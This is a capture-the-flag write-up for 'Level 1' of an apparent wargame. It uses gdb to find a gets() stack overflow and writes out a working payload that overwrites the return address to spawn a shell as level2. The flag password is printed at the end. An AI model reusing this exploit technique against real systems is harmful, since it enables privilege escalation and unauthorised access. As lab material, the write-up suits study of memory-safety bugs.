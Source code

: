 # Level 1

## First clue
- once logged in as level1 we find a `level1` file, owned by `level2`:
- `level1` is an executable
- we try to execute it without arguments and we get the prompt back
- nothing happens if we write something

## Inspect with gdb
- we check the functions in the executable. the presence of gets() function reveals a potential vulnerability (`fget()` is more safe)
```
(gdb) info function
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main

```
- there are two main functions, `main` and `run`
- first we inspect main
## Main
```
  (gdb) disas main
  Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.

```
- <+6> subtracts 80 bytes from the esp register, which is the variable used by the CPU to keep track of the stack pointer. This instruction allocates 80 bytes on the stack for a variable.
- <+16> calls the gets() function, using as an argument the buffer whose address has been pushed onto the stack in the previous instruction (+13), as is customary just before calling a function.
- <+21> and <+22> restore the control flow back to the runtime where the main function had been called, effectively updating the instruction pointer (eip) with the address stored in the return address located in the stack frame.
- the return is where we can operate, because we want to overwrite the return address (stored in `eip`) taking advantage of the fct that the gets() function doesnt't check the length of the buffer and if we write in the buffer a number of bytes higher than what the program has allocate we can rite directly in the `eip`
- to do that we need 2 things: 
    1. know exactly the offset of the buffer (we know that 80 bytes has been allocated but not exactly the offset). 
    2. which payload to execute and how. sure we need to find a way to execute `cat /user/level2/home/.pass` as `level2`but how?

## How to get the offset 
- we create a pattern of 80 characters (the same number of bytes allocated being 1 char = 1 byte) and save it i na file in the only place where we can save data: `python -c'print"a"*81' > /tmp/pattern`
- we pass this pattern as argument of ./level1 using gdb: 
    ``` 
    gdb ./level1
    run < /temp/pattern
    ```
    and we get the address returned by the program causing the segfault:
    ```
    Starting program: /home/user/level1/level1 </tmp/pattern

    Program received signal SIGSEGV, Segmentation fault.
    0x61616161 in ?? ()
    ```
- since `61` is the ASCII for the character "a" we can constate that the address contains actually 4 "a" characters, that means that 80 - 4 = the exact point where the buffer is overflowed = 76
- to confirm that we use the `info registers` gdb command:
    ```
    (gdb) info registers
    eax            0xbffff6e0	-1073744160
    ecx            0xb7fd28c4	-1208145724
    edx            0xbffff6e0	-1073744160
    ebx            0xb7fd0ff4	-1208152076
    esp            0xbffff730	0xbffff730
    ebp            0x61616161	0x61616161
    esi            0x0	0
    edi            0x0	0
    eip            0x61616161	0x61616161
    eflags         0x210286	[ PF SF IF RF ID ]
    cs             0x73	115
    ss             0x7b	123
    ds             0x7b	123
    es             0x7b	123
    fs             0x0	0
    gs             0x33	51
    ```
## Which payload to execute
- we inspect the run function
```
(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave  
   0x0804847f <+59>:	ret    
End of assembler dump.
```
- <+41>, <+46>, and <+53> are the most critical instructions within the run function. The `fwrite` function writes data to a file stream, and the subsequent system call indicates the execution of a shell command. But what shell command is being executed? To determine this, we inspect the argument passed to the system function:
    ```
    (gdb) x/s 0x8048584
    0x8048584:	 "/bin/sh"
    ```
- and we find out that the shell command is the shell executable
- ok so if we pass the address where the run function start as return of the main function we can actually execute /bin/sh 

### Buffer overflow return overwriting:
- we get the run function start address from the `info function` or `disas run` cmd output: `0x08048444  run`
- we create a file containing 76 char + the address of run function reversing it (for little endian):
`python -c 'print"a"*76+"\x44\x84\x04\x08"' > /tmp/exploit`
- we pass the `exploit` file as argument to `./level1`and we get a response `Good... Wait what?`but after that a segfault.
- we have to find a way to keep the stdin open after cat reads from the file, ensuring the program doesn't crash when system tries to read from it: `cat /tmp/exploit - | ./level1`
## Solution
- this way the prompt is returned to us and we can try to cat the .pass of level2:
```
`cat /tmp/exploit - | ./level1`
Good... Wait what?
> whoami
level2
> cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
